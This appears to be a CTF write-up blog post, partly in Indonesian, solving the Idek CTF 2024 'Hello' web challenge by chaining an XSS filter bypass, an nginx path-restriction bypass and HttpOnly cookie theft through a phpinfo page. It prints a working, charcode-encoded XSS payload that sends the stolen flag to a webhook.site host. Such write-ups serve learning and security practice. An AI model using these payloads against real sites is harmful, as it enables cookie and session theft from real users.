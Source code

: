 ```yaml
---
layout: post
title: "Idek CTF 2024 - Hello [Web]"
date: 2024-08-18 00:00:00
description: "Idek CTF 2024 - Hello [Web] Writeup"
tag:
  - Web
---
```


After a long hiatus from updating articles, this time an update will cover the writeup for the Web Idek CTF 2024 challenge called 'Hello'. This article is being written because it is considered particularly interesting.

**Challenge Description:**\
`Just to warm you up for the next Fight :"D`
`Note: the admin bot is not on the same machine as the challenge itself and the .chal.idek.team:1337 URL should be used for the admin bot URL`

![Chall](http://idek-hello.chal.idek.team:1337/)
![Admin Bot](https://admin-bot.idek.team/idek-hello)
![Attachments](https://idekctf-challenges.storage.googleapis.com/uploads/f64f1dd16fae27e943a8f7dab349e00509f39c63bb2278328ac5783d867fa393/idek-hello.tar.gz)

**Analysis:**\
Since this challenge is a Whitebox challenge with the provided source code, a source code review must be conducted first. The structure of the provided source code files is as follows:

.
├── bot.js
├── docker-compose.yml
├── hello
│   ├── Dockerfile
│   ├── init.sh
│   ├── nginx.conf
│   └── src
│   ├── index.php
│   └── info.php
└── tes.md

3 directories, 8 files

Based on the file structure, there is a bot.js file, which likely indicates a typical client-side challenge.

**First Analysis on the bot.js:**

```javascript
...SNIP...
const visit = async () => {
    let browser;
    try {
        browser = await puppeteer.launch({
            headless: true,
            pipe: true,
            args: [
                "--no-sandbox",
                "--disable-setuid-sandbox",
                "--js-flags=--noexpose_wasm,--jitless",
            ],
            dumpio: true
        });

        const ctx = await browser.createBrowserContext();

        const page = await ctx.newPage();
        await page.goto(CHALLENGE_ORIGIN, { timeout: 3000 });
        await page.setCookie({ name: 'FLAG', value: 'idek{PLACEHOLDER}', httpOnly: true });
        await page.goto(TARGET_URL, { timeout: 3000, waitUntil: 'domcontentloaded' });
        await sleep(5000);

        await browser.close();
        browser = null;
    } catch (err) {
        console.log(err);
    } finally {
        if (browser) await browser.close();
    }
};
...SNIP...
```

According to the bot.js file, the FLAG is located in the bot’s cookies, which are simulated as Admin user. Given that the FLAG is stored in a cookie, it can be inferred that this is a Cross-site Scripting (XSS) challenge. However, it is important to note that the cookie has the 'httponly' attribute set to 'true'. This means there is protection in place, preventing the stealing of cookies using JavaScript's document.cookie.

Based on an article from ![HackCommander](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/), it is possible to bypass HttpOnly and exfiltrate cookies via the PHP Info page.

**Second Analysis on the index.php:**

```php
<?php

function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}

?>
```

In the index.php file, there is a Cross-site Scripting (XSS) vulnerability in the 'name' parameter, which renders user input. However, there is a filter in the Enhanced_Trim function that prevents the use of characters such as '\r', '\n', '\t', '/', and ' ' (spaces) for constructing the XSS payload.

**Third Analysis on the nginx.conf:**

```bash
...SNIP...
location = /info.php {
allow 127.0.0.1;
deny all;
}

location ~ \.php$ {
root    /usr/share/nginx/html;
fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
include fastcgi_params;
fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
...SNIP...
```

In the Nginx configuration file, there is a vulnerability related to unsafe path restrictions to the /info.php endpoint. Without further research, it might seem that the info.php file is not the way to obtain the FLAG in the Admin’s cookies. However, as outlined in the ![HackCommander](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/) cookies can be exfiltrated via the PHP Info page, making this page highly valuable. It is also noted that the website is using PHP-FPM..

**How to Solve?**\
Dari hasil analisa yang telah kita lakukan, dapat kita urutkan langkah penyelesaiannya sebagai berikut:

1. Bypass Cross-site-Scripting (XSS) filter pada endpoint /index.php dengan parameter "name" => http://target/index.php?name=payload
2. Bypass Unsafe Path Restriction untuk bisa akses info.php page => http://target/info.php
3. Exfiltrate Admin Cookies via PHP info page

Karena alurnya sudah kita ketahui, langsung saja kita lakukan exploitasi.

**Bypass Filter XSS:**

1. Bypass " " (spasi) menggunakan null byte %0, referensi dari ![ctftime](https://ctftime.org/writeup/32720)
2. Bypass "/" (slash) menggunakan String.fromCharCode

**Bypass Path Restriction Nginx PHP-FPM:**

1. Akses ke /info.php yang seharusnya hanya diperbolehkan dari 127.0.0.1 dapat di bypass dengan Path Manipulation => http://target/info.php/index.php ![sumber](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass)

**Final Payload:**\
Dari teknik bypass yang ditemukan, terbentuklah payload XSS untuk stealing cookies dari PHP info page menggunakan regex sebagai berikut:

```javascript
// Ubah menjadi decimal
fetch("http://idek-hello.chal.idek.team:1337/info.php/index.php")
  .then((response) => response.text())
  .then((data) => {
    const regex = /idek\{.*?\}/g;
    const matches = data.match(regex);
    if (matches) {
      fetch(
        "https://webhook.site/e9f955cb-6075-43a9-a58a-521db006edcd" +
          "?encodedMatches=" +
          btoa(matches),
        { method: "GET" }
      );
    }
  });

// Payload final yang di submit ke bot Admin
http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=javascript:eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,58,47,47,105,100,101,107,45,104,101,108,108,111,46,99,104,97,108,46,105,100,101,107,46,116,101,97,109,58,49,51,51,55,47,105,110,102,111,46,112,104,112,47,105,110,100,101,120,46,112,104,112,39,41,46,116,104,101,110,40,114,101,115,112,111,110,115,101,32,61,62,32,114,101,115,112,111,110,115,101,46,116,101,120,116,40,41,41,46,116,104,101,110,40,100,97,116,97,32,61,62,32,123,99,111,110,115,116,32,114,101,103,101,120,32,61,32,47,105,100,101,107,92,123,46,42,63,92,125,47,103,59,99,111,110,115,116,32,109,97,116,99,104,101,115,32,61,32,100,97,116,97,46,109,97,116,99,104,40,114,101,103,101,120,41,59,105,102,32,40,109,97,116,99,104,101,115,41,32,123,102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,101,57,102,57,53,53,99,98,45,54,48,55,53,45,52,51,97,57,45,97,53,56,97,45,53,50,49,100,98,48,48,54,101,100,99,100,39,32,43,32,39,63,101,110,99,111,100,101,100,77,97,116,99,104,101,115,61,39,32,43,32,98,116,111,97,40,109,97,116,99,104,101,115,41,44,32,123,32,109,101,116,104,111,100,58,32,39,71,69,84,39,32,125,41,59,125,125,41,59))>
```

Tinggal kirimkan payload final ke Admin Bot, setelah itu Bot akan trigger payload tersebut untuk exfiltrate FLAG via PHP info page dan flag kita dapatkan di webhook.
![Webhook](/assets/img/Idek-CTF-2024-Hello/flag.png)

**Flag**:idek{Ghazy_N3gm_Elbalad},idek{Ghazy_N3gm_Elbalad}
